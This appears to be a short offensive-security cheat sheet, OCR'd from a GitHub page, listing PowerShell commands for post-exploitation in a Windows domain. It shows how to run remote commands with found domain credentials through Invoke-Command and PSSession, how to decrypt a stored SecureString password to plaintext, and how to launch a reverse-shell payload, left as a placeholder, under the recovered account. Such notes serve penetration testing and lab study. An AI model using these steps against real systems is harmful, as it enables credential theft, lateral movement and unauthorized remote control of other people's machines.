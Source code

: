 ### Commands:

#### 1) $SecPassword = ConvertTo-SecureString 'PASSWORD' -AsPlainText -Force

#### 2) $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN.LOCAL\USERNAME', $SecPassword)

#### 3) Invoke-Command -Computer COMPUTER_NAME -Credential $Cred -ScriptBlock { COMMAND_TO_EXECUTE } 

### Use case:

### When we have valid credentials on a domain joined user, but he has no access to RDP or/and WinRM (Remote Desktop Users and Remote Management Users)

### Alternatively, we can authenticate with a PSSession

#### 4) $session = New-PSSession -CompuerName COMPUTER_NAME -Credential $Cred -Authentication AUTHENTICATION_METHOD (CREDSSP foe example)

#### 5) Enter-PSSession $session

## Alternate use case: The credentials found are encrypted in some way. To recover the credentials, we do the following commands:

 - echo > pass.txt (Pass the encrypted password to a .txt file)

 - $EncryptedString = Get-Content .\pass.txt (Set a variable that opens the content of the .txt file we created earlier)

 - $SecureString = ConvertTo-SecureString $EncryptedString 

 - $Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString

 - echo $Credential.GetNetworkCredential().password (Print the decrypted password of the user)

 - $username = 'USER'

 - $password = 'RECOVERED_PASS'

 - $securePassword = ConvertTo-SecureString $password -AsPlainText -Force

 - $credential = New-Object Automation.PSCredential($username, $securePassword)

 - Invoke-Command -ComputerName localHost -Credential $credential -ScriptBlock{YourNewRevShellPayloadHere} 


